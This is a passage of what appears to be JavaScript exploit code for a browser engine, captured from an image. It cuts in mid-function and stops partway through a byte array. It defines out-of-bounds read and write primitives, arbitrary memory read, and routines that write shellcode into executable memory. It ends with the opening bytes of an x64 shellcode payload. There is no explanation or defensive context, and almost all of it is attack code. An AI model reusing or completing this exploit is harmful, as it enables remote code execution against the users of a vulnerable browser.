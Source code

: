 ``` html
  b[0] = obj;
  let addrs = oobRead();
  dblArr[0] = addrs[0];
  return intView[1]; 
}

function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));
  return writeArr[0];
}

function arbRead1(addr) {
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, addr));
  return writeArr[0];
}

function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

function writeShellCode1(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
 
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, intArrAddr + 0x20));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

var other_method = false;
var instanceAddr = addrOf(instance);
var elementsAddr = ftoi32(addrs[1])[0];

if((elementsAddr & 0xFFFF) == 0x222D) {
  other_method = true;
  elementsAddr = ftoi32(addrs[1])[1];
}

var shellCode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
      0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
      0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
      0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
      0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
```